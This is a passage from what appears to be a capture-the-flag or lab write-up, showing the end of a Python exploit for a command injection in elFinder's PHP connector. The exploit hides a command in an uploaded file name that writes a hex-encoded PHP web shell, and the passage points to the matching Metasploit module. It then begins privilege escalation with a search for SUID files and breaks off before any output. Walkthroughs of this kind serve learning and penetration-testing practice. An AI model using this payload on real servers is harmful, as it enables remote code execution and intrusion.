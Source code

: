 ```python
 sys.exit(0)
 except KeyboardInterrupt:
 sys.exit("\nSo long brother....")
 else:
 print("[*] Cannot reliably check exploitability T_T.")


if __name__ == "__main__":
 if len(sys.argv) != 3:
 print("Usage: python exploit.py http://IP:PORT/elFinder/ [IMAGE FILE]")
 print("""Note: 
 1. Copy or make an image file in the current working directory.
 2. Ensure that 'image_input.jpg' is literal file name for the image file.
 3. Ensure the image file is present in the current working directory. :)""")
 sys.exit(0)

 url = sys.argv[1]
 payload = "image_input.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > image_input.php;echo image_input.jpg"

 print("[*] Uploading sus image...")
 hash = upload(url, payload)
 print("[*] Executing the payload...")
 imgRotate(url, hash)
 shell(url)
```

We can either run this code or use the Metasploit exploit located at: `exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`

![Pasted image 20241202145921.png](../../IMAGES/Pasted%20image%2020241202145921.png)

Once we've set everything, we got a shell, let's perform privilege escalation
# PRIVILEGE ESCALATION
---

To begin with, I used `find / -perm -u=s -type f 2>/dev/null` and got this output:
